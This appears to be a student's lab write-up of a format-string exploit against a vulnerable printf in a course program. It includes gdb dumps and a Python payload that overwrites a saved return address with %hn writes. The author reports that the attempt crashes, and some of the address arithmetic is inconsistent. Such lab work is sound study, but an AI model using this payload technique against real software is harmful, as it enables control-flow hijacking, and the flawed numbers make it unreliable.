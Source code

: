 # 06 - Antares Writeup

## Main Idea

The code is vulnerable because of the printf function. We can define arguments to write what we want to memory.
Before that, we need to know the steps of printf. In that schema, arg0 is the address of the printf string. Arg1 and arg2 is the arguments of printf.
We can self-define the arguments that we want. At first, we neet to place the string address above the rip of printf. Then the printf function will use the argument above RIP of printf according to the format of string.

```plaintext
...
[  ][  ][  ][  ] <-- arg2
[  ][  ][  ][  ] <-- arg1
[  ][  ][  ][  ] <-- arg0 (&buf)
[  ][  ][  ][  ] <-- RIP of printf
[  ][  ][  ][  ] <-- SFP of printf
...
```

## Magic Numbers

The address of buffer is `0xffffd5d0`, the RIP is `0xffffd5bc`, so the location of RIP is 20 bytes away from the start of the buffer (0xffffd6ac - 0xffffd698).

``` C++
(gdb) x/16x buf
0xffffd5d0:     0x41414141      0xffffd5bc      0x41414141      0xffffd5be      
0xffffd5e0:     0x63256325      0x63256325      0x63256325      0x63256325      
0xffffd5f0:     0x63256325      0x63256325      0x32353525      0x25753637      
0xffffd600:     0x31256e68      0x33343230      0x6e682575      0x00000a00
(gdb) i f
Stack level 0, frame at 0xffffd5c0:
 eip = 0x8049214 in calibrate (calibrate.c:9); saved eip = 0x804928f
 called by frame at 0xffffd670
 source language c.
 Arglist at 0xffffd5b8, args:
    buf=0xffffd5d0 "AAAA\274\325\377\377AAAA\276\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%55276u%hn%10243u%hn"
 Locals at 0xffffd5b8, Previous frame's sp is 0xffffd5c0
 Saved registers:
  ebp at 0xffffd5b8, eip at 0xffffd5bc
```

## Exploit Structure

First, we will place the argument we need to buffer, which is significant to what we want to write in memory.
Second, we need printf 12 characters (address of buf - address of argument1) to move the argument to the buffer.
Third, we need to modify the "byte" we have printf to overwrite the address of shellcode into RIP of calibrate by %hn and %u.

## Exploit GDB Output

before attack

```C++
(gdb) x/64x 0xffffd5b0
0xffffd5b0:     0x00000002      0x00000000      0xffffd658      0x0804928f
0xffffd5c0:     0xffffd5d0      0x08048034      0x00000020      0x00000008      
0xffffd5d0:     0x41414141      0xffffd5bc      0x41414141      0xffffd5be      
0xffffd5e0:     0x63256325      0x63256325      0x63256325      0x63256325      
0xffffd5f0:     0x63256325      0x63256325      0x32353525      0x25753637      
0xffffd600:     0x31256e68      0x33343230      0x6e682575      0x0000000a      
0xffffd610:     0x00000000      0x00000001      0x00000000      0xffffd7cb      
0xffffd620:     0x00000002      0x00000000      0x00000000      0x00000000      
0xffffd630:     0x00000000      0xffffdfe0      0xf7ffc540      0xf7ffc000      
0xffffd640:     0x00000000      0x00000000      0x00000000      0x00000000      
0xffffd650:     0x00000000      0xffffd670      0xffffd6f0      0x08049466      
0xffffd660:     0x00000002      0x0804926c      0x0804ffe8      0x08049466      
0xffffd670:     0x00000002      0xffffd6e4      0xffffd6f0      0x0804e04e      
0xffffd680:     0x00000000      0x00000000      0x08049444      0x0804ffe8      
0xffffd690:     0x00000000      0x00000000      0x00000000      0x08049097      
0xffffd6a0:     0x0804926c      0x00000002      0xffffd6e4      0x08049000 
```

after attack

```  C++
Program received signal SIGSEGV, Segmentation fault.
0x0804ad5f in printf_core (f=f@entry=0x80500c0 <__stdout_FILE>, fmt=fmt@entry=0xffffd5d0 "AAAA\274\325\377\377AAAA\276\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%55276u%hn%10243u%hn\n", ap=ap@entry=0xffffd45c, nl_arg=<optimized out>, nl_type=<optimized out>) at src/stdio/vfprintf.c:548
548     src/stdio/vfprintf.c: No such file or directory.
```

Pathetically, I do not know where the problem is.
Below is my python code.

``` python
payload = ''
payload += "A" * 4   #(consumed by %__u)
payload += '\xbc\xd5\xff\xff'    #  lower half word address of RIP that we want to overwrite
payload += 'A' * 4   #(consumed by %__u)
payload += '\xbe\xd5\xff\xff'    #  higher half word address of RIP that we want to overwrite

payload += "%c" * 12  # move the pointer of printf to buffer

cur =  12 
FIRST_HALF = 65535   # The two most significant bytes of RIP
SECOND_HALF = 55288  # The two least significant bytes of RIP

payload += '%' + str(SECOND_HALF - cur) + 'u'
payload += '%hn'

payload += '%' + str(FIRST_HALF - SECOND_HALF) + 'u'
payload += '%hn'
payload += '\0'
print(payload + '\n')
```
